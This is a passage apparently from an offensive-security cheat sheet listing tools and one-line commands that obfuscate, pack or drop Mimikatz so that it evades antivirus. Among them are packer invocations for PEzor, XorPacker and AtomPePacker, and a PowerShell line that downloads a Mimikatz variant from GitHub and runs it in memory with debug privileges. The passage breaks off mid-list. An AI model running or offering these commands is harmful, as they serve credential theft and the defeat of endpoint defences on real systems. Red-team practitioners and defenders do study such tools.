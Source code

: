 https://github.com/dfirdeferred/Invoke-Mimikatz



### mimikatz_bypass

```
.\XInvoke-Mimikatz.ps1
.\wi10_Invoke-Mimikatz.ps1
```

https://github.com/izj007/mimikatz_bypass


### JS_MimiKatzDropper

```
cscript.exe dropper.js
```

https://github.com/leinn32/JS_MimiKatzDropper



### mimicats

```
Invoke-Expression (New-Object Net.Webclient).downloadstring('https://raw.githubusercontent.com/Moon1705/mimicats/master/Mimicats.ps1') Invoke-Cats -Command '"privilege::debug"'
```

https://github.com/Moon1705/mimicats


### XorPacker

```
python3 ./xorpacker.py -f mimikatz.exe -t UNMANAGED
```

https://github.com/tmenochet/XorPacker

### PEzor

```
PEzor.sh -fluctuate=RW -sleep=120 mimikatz/x64/mimikatz.exe -z 2 -p '"coffee" "sleep 5000" "coffee" "exit"'
```

https://github.com/phra/PEzor

### AtomPePacker

```
PePacker.exe mimikatz.exe -e
```

https://github.com/NUL0x4C/AtomPePacker


### Nim-RunPE
